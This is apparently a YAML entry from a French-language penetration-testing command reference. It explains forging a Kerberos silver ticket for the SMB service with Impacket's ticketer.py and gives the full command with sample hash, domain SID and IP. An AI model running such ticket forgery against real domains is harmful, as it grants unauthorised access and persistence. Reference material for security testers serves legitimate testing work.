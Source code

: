 ```yaml
---
description: |
  Le logiciel ticketer.py d'Impacket peut effectuer des attaques par ticket d'argent, ce qui permet de créer un ticket TGS valide pour un service spécifique en utilisant le hachage NTLM d'un utilisateur valide. Il est alors possible d'accéder à ce service. La commande suivante crée un TGS pour le service SMB, qui peut ensuite être utilisé pour obtenir un shell.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

  	SMB Service: cifs

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```


